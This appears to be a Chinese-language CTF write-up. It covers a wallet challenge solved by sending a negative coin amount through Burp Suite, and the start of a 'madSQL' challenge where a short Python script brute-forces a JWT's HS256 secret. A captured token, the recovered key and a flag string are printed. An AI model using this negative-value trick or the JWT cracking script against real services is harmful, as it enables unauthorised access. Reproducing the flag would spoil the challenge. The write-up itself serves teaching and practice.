 访问/robots.txt，服务器钱包详情在/waaaalllllleetttt，得到远程地址，并且远程钱包余额为100，需要101才能够/buyFlag

所以尝试向远程钱包发送1个，这自然是不被允许的的，本地钱包余额不足

故用burpsuite拦截，从远程钱包获取-1个coin，成功，查看服务器钱包余额，变成101了

之后从远程钱包分别获取50 51（有单次限额），buyFlag

![](https://s2.loli.net/2024/11/14/VZYlBDrtWMAdTpK.png)

``` 
SSHCTF{3ff7b1d1-08e5-49c4-a02a-1dc274bb031c}
```

### madSQL

注意到hint: jwt first

正常登录(Guest)用burpsuite获取到随便一个jwt

我得到的是eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZGVudGl0eSI6Imd1ZXN0IiwiZXhwIjoxNzI0NjE4NTg3fQ.Ce96_mDr2FkPVeN51Z-rNTrFFUzImMP1el_yIINgFJg

F12发现try brute force的hint，故用python暴力破解

先用[pydictor](https://github.com/LandGrey/pydictor)生成了1-6位数字密码nums.txt（这题不用也行），然后执行python程序

```python
import jwt

def runblasting(path, jwt_str):
    alg = 'HS256'
    with open(path, 'rb') as f:
        for line in f:
            key_ = line.strip()
            print('use' + key_.decode('utf-8'))
            try:
                jwt.decode(jwt_str, verify=True, key=key_, algorithms=alg)
                print('found key! --> ' + key_.decode('utf-8'))
                break
            except:
                continue
            else:
                print('key not found!')
# nums.txt : 1-6位数字
runblasting('nums.txt', 'eyJ ... FJg')
```

得到key=5807，拿去[JSON Web Tokens - jwt.io](https://jwt.io/)

```
HEADER:
{
  "typ": "JWT",
  "alg": "HS256"
}
PAYLOAD:
{
  "identity": "guest",
  "exp": 1724610414
}
VERIFY SIGNATURE:
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload), 
  5807
)
```
